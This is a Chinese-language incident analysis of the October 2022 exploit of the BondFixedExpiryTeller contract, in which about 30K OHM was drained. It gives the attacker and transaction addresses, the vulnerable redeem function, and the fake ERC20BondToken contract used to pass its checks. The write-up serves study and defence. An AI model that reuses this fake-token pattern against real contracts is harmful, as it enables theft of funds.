

# 20221021 - BondFixedExpiryTeller - 参数可控 ~ 30K $OHM

## 相关地址

攻击者地址: 0x443cf223e209E5A2c08114A2501D8F0f9Ec7d9Be

被攻击合约地址: 0x007fe7c498a2cf30971ad8f2cbc36bd14ac51156

攻击交易: 0x3ed75df83d907412af874b7998d911fdf990704da87c2b1a8cf95ca5d21504cf

攻击合约地址: 0xa29e4fe451ccfa5e7def35188919ad7077a4de8f

## 攻击分析


攻击者首先查询合约中 $OHM 代币数量


通过调用合约中存在漏洞的 redeem 函数转移出 30,473 $OHM 代币




漏洞出现在 BondFixedExpiryTeller 合约中的 redeem 方法


```solidity
    function redeem(ERC20BondToken token_, uint256 amount_) external override nonReentrant {
        if (uint48(block.timestamp) < token_.expiry())
            revert Teller_TokenNotMatured(token_.expiry());
        token_.burn(msg.sender, amount_);
        token_.underlying().transfer(msg.sender, amount_);
    }
```

合约中 redeem 方法主要做赎回代币操作，if语句检查当前的时间戳是否小于token*的到期时间，而* ERC20BondToken token 地址允许任何人传入合约地址，并调用恶意合约中的 burp，underlying, expiry 等方法

```solidity
// 恶意合约
address constant OHM = 0x64aa3364F17a4D01c6f1751Fd97C2BD3D7e7f1D5;

contract ExpToken {
    function underlying() external pure returns (address) {
        return OHM;
    }

    function expiry() external pure returns (uint48 _expiry) {
        return 1;
    }

    function burn(address, uint256) external pure {
    }
}
```

最后会将 amount_ 参数数量的代币 transfer 发送给调用者，此时就导致合约中的 $OHM 代币被全部转出

